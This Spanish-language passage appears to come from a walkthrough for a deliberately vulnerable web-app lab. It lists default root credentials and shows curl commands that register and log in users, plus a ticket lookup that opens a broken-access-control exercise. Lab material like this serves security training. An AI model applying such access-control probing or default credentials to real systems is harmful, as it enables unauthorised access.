- Contraseña: vulnerablewebapps

La información de autenticación para la base de datos MySQL es:

- Usuario: root
- Contraseña: vulnerablewebapps

### A1 - Control de acceso roto

#### Ecommerce

Registrar un usuario.

```shell
# Linux
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/register
# Windows
curl "http://localhost:10005/register" -X POST -H "Content-Type: application/json" --data-raw "{""username"":""user2"",""password"":""user2""}
```
Iniciar sesión con usuario.

```shell
# Linux
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/login
# Windows
curl "http://localhost:10005/login" -X POST -H "Content-Type: application/json" --data-raw "{""username"":""user2"",""password"":""user2""}
```

#### Snake Pro

```shell
curl -vvv https://10.2.10.83:10005/ticket/a0954e79-af0c-47d9-89d4-ef5851b5dc40
```

